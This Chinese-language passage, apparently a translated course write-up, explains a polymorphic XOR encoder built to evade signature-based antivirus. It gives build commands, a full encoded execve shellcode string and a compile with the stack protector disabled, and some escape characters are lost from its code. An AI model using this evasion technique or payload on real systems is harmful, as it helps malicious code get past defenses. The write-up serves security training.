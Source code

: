 [![](https://pentesterslife.files.wordpress.com/2017/12/fig4.png?w=344&amp;h=233)](https://pentesterslife.files.wordpress.com/2017/12/fig4.png?w=344&amp;h=233)

因此，我们还需要使用多态引擎，来躲避这个壳检测。



## 多态引擎

在这种情况下，多态仅仅是改变了代码的指令（签名），但代码的功能仍然保持不变。

此时，我们聚焦在编码器的Python代码上，与普通的编码器相反，它将会生成x64 ASM解码器代码decoder.nasm。这一点非常有必要，因为每一次所生成的代码都不一样。

接下来我们看向代码。其第一部分包含我们的载荷（execve），它被附加到签名字节0x90上，并且我们还能发现其中随机生成的字节（第7行），它将会与载荷中的每个字节进行异或。

[![](https://pentesterslife.files.wordpress.com/2017/12/fig5.png?w=639&amp;h=142)](https://pentesterslife.files.wordpress.com/2017/12/fig5.png?w=639&amp;h=142)

在对载荷进行异或/编码操作的Python算法之后（代码请点击[这里](https://gitlab.com/0x4ndr3/SLAE64_Assignments/blob/master/Assignment_04/encoder.py)），我们发现还有一些用于进行调试的输出，然后：

[![](https://pentesterslife.files.wordpress.com/2017/12/fig6.png?w=603&amp;h=541)](https://pentesterslife.files.wordpress.com/2017/12/fig6.png?w=603&amp;h=541)

代码生成的核心是poly(…)函数。

[![](https://pentesterslife.files.wordpress.com/2017/12/fig7.png?w=596&amp;h=560)](https://pentesterslife.files.wordpress.com/2017/12/fig7.png?w=596&amp;h=560)

这是一个简单的函数，它将会在dictionary类型的container中搜索指定的指令（第29行）。该搜索的结果是一个可以交换原始指令的选项列表。随后，将会从该列表中随机选择一个项目进行交换（第65行）。正如我们所看到的那样，我们只提供了两种选择，其中之一就是成为指令本身。然而，这对于躲避基于签名的病毒检测，已经足够有效了。

所以，让我们再来测试一下。运行编码器后，编译并解压Shellcode：

```
#
./encoder.py

#
nasm -felf64 decoder.nasm -o decoder.o &amp;&amp; ld decoder.o -o decoder
```

随后，执行反病毒软件：

[![](https://pentesterslife.files.wordpress.com/2017/12/fig8.png?w=318&amp;h=214)](https://pentesterslife.files.wordpress.com/2017/12/fig8.png?w=318&amp;h=214)

此时，就没有被检测到。

当然，现在我们的代码仍然在shellcode.c中正常运行：

```
#
./encoder.py

#
nasm -felf64 decoder.nasm -o decoder.o &amp;&amp; ld decoder.o -o decoder

#
for i in `objdump -d decoder | tr ‘t’ ‘ ‘ | tr ‘ ‘ ‘n’ | egrep
‘^[0-9a-f]`{`2`}`$’ ` ; do echo -n “x$i” ; done;echo
xebx47x48x8bx3cx24x48x83xc4x08x48x89xfbx8ax17x48x31xffx48xffxcfx48x83xc7x02x41x88xd1x44x88xc8x41x88xf9x44x30xc8xb4xffx66x83xf8x90x75xe5x6ax1bx59x40x88xf8x53x5fx44x8ax0fx41x30xc1x44x88x0fx48xffxcfx48x83xc7x02xe2xeexffxe3xe8xb4xffxffxffx8ex74x25x46x87x4cx56xa5x31x31x7cx77x70x31x6dx76x4dx4ax41x4cx4ax40x49x4ax44x11x1b

#
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
